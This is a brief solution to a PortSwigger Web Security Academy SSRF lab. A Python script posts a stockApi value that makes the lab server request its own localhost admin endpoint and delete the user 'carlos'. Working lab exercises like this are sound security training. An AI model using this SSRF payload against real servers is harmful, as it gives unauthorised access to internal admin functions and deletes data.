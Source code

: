 # Lab: Basic SSRF against the local server

Link to lab: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

## Solution
```python
import requests

data = 'stockApi=http://localhost/admin/delete?username=carlos'

response = requests.post(
    'https://0a93006004b54f54c074fa48004a00a1.web-security-academy.net/product/stock',
    data=data,
    verify=False,
)
```